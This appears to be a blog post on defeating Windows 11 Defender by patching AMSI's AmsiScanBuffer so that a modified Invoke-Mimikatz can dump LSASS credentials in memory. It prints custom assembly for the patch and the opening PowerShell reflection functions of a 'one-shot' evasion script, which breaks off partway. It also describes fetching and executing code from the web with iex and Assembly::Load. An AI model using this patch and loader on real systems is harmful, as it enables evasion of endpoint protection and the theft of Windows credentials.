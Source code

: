 One reason attackers favor targeting AMSI is its susceptibility to bypass, and another is PowerShell's versatility in loading and executing code directly into memory without any disk interaction. Common techniques observed include using iex (Invoke-Expression) to execute a PowerShell script remotely from the web or [System.Reflection.Assembly]::Load() to load a .NET assembly directly from the web, both of which avoid touching the disk altogether.

Attackers have also been known to utilize Mimikatz to dump LSASS. However, the regular Mimikatz binary, written in C, is likely one of the most signatured pieces of code, along with Meterpreter.

Many years ago, Joe Bialek developed a PowerShell script that could invoke Mimikatz into memory. While this script is flagged by Defender even if AMSI is bypassed, there have been numerous modified versions that change function names, yet the technique still proves effective against the latest Windows 11 Defender. I will demonstrate this by utilizing the AmsiScanBuffer patch from this blog [https://gustavshen.medium.com/bypass-amsi-on-windows-11-75d231b2cac6](https://gustavshen.medium.com/bypass-amsi-on-windows-11-75d231b2cac6).

In the author's implementation, they obfuscated the lookup for GetProcAddress and also modified the assembly to evade basic detection. I decided to take the obfuscation, forcing AmsiScanBuffer to return an E_INVALIDARG error, one step further from the blog. The custom assembly implementation is shown below.


```bash 
xor eax, eax ; Clear the EAX register by XORing it with itself
shl eax, 16 ; Shift the contents of EAX left by 16 bits, effectively clearing the lower 16 bits
or ax, 0x57 ; Set the lower 16 bits of EAX using a bitwise OR operation with the value 0x57
ret ; Return from the current subroutine
```

I've modified the script to include my custom version of the AmsiScanBuffer patch and added a modified version of invoke-mimikatz to streamline it into a one-shot script.

```powershell 
function LookupFunc {
    Param ($moduleName, $functionName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
     Equals('System.dll')
     }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -like "Ge*P*oc*ddress") {$tmp+=$_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,
@($moduleName)), $functionName))
}


function getDelegateType {
    Param (
     [Parameter(Position = 0, Mandatory = $True)] [Type[]]
     $func, [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
[System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('InMemoryModule', $false).
    DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass,
    AutoClass', [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public',
[System.Reflection.CallingConventions]::Standard, $func).
     SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType,
$func). SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
```
